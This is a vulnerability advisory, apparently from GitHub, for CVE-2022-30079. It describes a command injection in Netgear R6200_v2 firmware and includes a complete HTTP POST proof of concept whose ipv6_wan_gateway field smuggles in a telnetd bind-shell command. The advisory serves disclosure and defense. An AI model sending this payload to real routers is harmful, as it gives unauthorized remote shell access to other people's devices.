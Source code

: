 # Command injection vulnerability in Netgear R6200_v2 router
## Basic information
* CVE-ID：CVE-2022-30079
* Vendor: Netgear
* Product: R6200_v2
* Firmware version: All firmware version including the latest R6200v2-V1.0.3.12_10.1.11
* Firmware download link: https://www.downloads.netgear.com/files/GDC/R6200V2/R6200v2-V1.0.3.12_10.1.11.zip
* Type: Insecure permissions - code execution

## Vulnerability description
Vulnerability exists in the binary `/sbin/acos_service` in all R6200_v2 firmware versions including the latest R6200v2-V1.0.3.12. It might also infect some other products, which is recently not analyzed.  
Taking the latest R6200_V2_1.0.3.12 firmware as an example, the variable `ipv6_wan_gateway ` located at offset 0x19B98 is passed into a `sprintf` function by the format string `%s`. Then, the value is passed to a `system`, which leads to a command injection vulnerability. The disassemble code and the c code are presented below:  
![disassemble code of the vulnerable place](./CVE-2022-30079.assets/vuln_disam_code.png)  
![c code of the vulnerable place](./CVE-2022-30079.assets/vuln_c_code.png)  
Through further attemps, we found that remote authenticated attackers can modify the value of the vulnerable parameter in website http://192.168.1.1/IPV6_fixed.htm by sending a modified request. As the vulnerable parameter is directly saved in nvram after sending the request, attackers can then execute arbitrary remote command as they controlled the parameter of a `system` call.  
After visiting the web page and sending a `POST` request, if we set the `ipv6_wan_gateway` parameter of the request to be `%24%28telnetd+-l+%2Fbin%2Fsh+-p+1234+-b+0.0.0.0%29`, we can actually execute command which `$(telnetd -l /bin/sh -p 1234-b 0.0.0.0)`.  
A potential PoC is shown below:  
```
POST /ipv6_fix.cgi?id=2068267834 HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1087
Origin: http://192.168.1.1
Authorization: Basic YWRtaW46YWRtaW4x
Connection: close
Referer: http://192.168.1.1/IPV6_fixed.htm
Cookie: XSRF_TOKEN=1222440606
Upgrade-Insecure-Requests: 1
apply=Apply&login_type=Fixed&IPv6WanAddr1=2001&IPv6WanAddr2=3CA2&IPv6WanAddr3=010F&IPv6WanAddr4=00A1&IPv6WanAddr5=121C&IPv6WanAddr6=0000&IPv6WanAddr7=0000&IPv6WanAddr8=0010&ProfixWanLength=6&IPv6Gateway1=2001&IPv6Gateway2=3CA2&IPv6Gateway3=010F&IPv6Gateway4=00A1&IPv6Gateway5=121C&IPv6Gateway6=0000&IPv6Gateway7=0000&IPv6Gateway8=0002&DAddr1=&DAddr2=&DAddr3=&DAddr4=&DAddr5=&DAddr6=&DAddr7=&DAddr8=&PDAddr1=&PDAddr2=&PDAddr3=&PDAddr4=&PDAddr5=&PDAddr6=&PDAddr7=&PDAddr8=&IpAssign=auto&IPv6LanAddr1=3113&IPv6LanAddr2=3CA2&IPv6LanAddr3=010F&IPv6LanAddr4=001A&IPv6LanAddr5=121B&IPv6LanAddr6=0000&IPv6LanAddr7=0000&IPv6LanAddr8=0001&ProfixLanLength=6&ipv6_wan_ipaddr=2001%3A3CA2%3A010F%3A00A1%3A121C%3A0000%3A0000%3A0010&ipv6_lan_ipaddr=3113%3A3CA2%3A010F%3A001A%3A121B%3A0000%3A0000%3A0001&ipv6_wan_length=6&ipv6_lan_length=6&ipv6_pri_dns=%3A%3A%3A%3A%3A%3A%3A&ipv6_sec_dns=%3A%3A%3A%3A%3A%3A%3A&ipv6_wan_gateway=%24%28telnetd+-l+%2Fbin%2Fsh+-p+1234+-b+0.0.0.0%29&ipv6_enable_dhcp=&ipv6_proto=fixed
```
An evidence of the vulnerable is shown below:  
![reproduction evidence](./CVE-2022-30079.assets/reproduction.png)

## Acknowledgment
This vulnerability credits to [@maybethetricker](https://github.com/maybethetricker) and [@river-li](https://github.com/river-li)

